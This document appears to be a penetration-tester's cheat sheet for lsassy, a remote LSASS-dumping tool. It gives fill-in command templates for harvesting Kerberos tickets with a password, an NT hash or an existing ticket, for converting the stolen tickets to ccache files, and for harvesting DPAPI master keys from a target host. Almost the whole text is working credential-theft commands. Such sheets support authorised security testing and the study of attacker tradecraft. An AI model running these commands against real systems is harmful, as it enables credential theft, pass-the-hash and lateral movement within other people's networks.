 # lsassy

% dploot, dpapi

#plateform/linux  #target/remote  #cat/CREDENTIAL-ACCESS/KERBEROS

## desc
```
https://github.com/login-securite/lsassy
```

## Kerberos - tickets harvesting (creds)
-K '<save_path|./>'
```bash
lsassy -d <domain_fqdn> -vv -debug -u <user> -p '<password>' --format pretty -ff json -o <cred_file_path|./lsassy-creds.json>  <target_fqdn>
```

## Kerberos - tickets harvesting (pth)
-K '<save_path|./>'
```bash
lsassy -d <domain_fqdn> -vv -debug -u <user> -H <nt_hash>  --format pretty -ff json -o <cred_file_path|./lsassy-creds.json>  <target_fqdn>
```


## Kerberos - tickets harvesting (ptt)
-K '<save_path|./>'
```bash
KRB5CCNAME=<ccache> lsassy -vv -debug -d <domain_fqdn> -u <user> -k --format pretty -ff json -o <cred_file_path|./lsassy-creds.json>  <target_fqdn>
```

## Kerberos - Convert tickets
```bash
for f in $(ls ~/.config/lsassy/tickets) ; do ticketConverter.py $f $f.ccache ; done
```

## dpapi - Master Keys harvesting 
-M '<save_path|./>'
```bash
lsassy -d <domain_fqdn> -vv -debug -u <user> -p '<password>' --no-tickets  --format pretty -ff json -o <cred_file_path|./lsassy-creds.json>  <target_fqdn>
```

## only users
```bash
lsassy -d <domain_fqdn> -vv -debug -u <user> -p '<password>' --no-tickets  --format pretty -ff json -o <cred_file_path|./lsassy-creds.json>  --users <target_fqdn>
```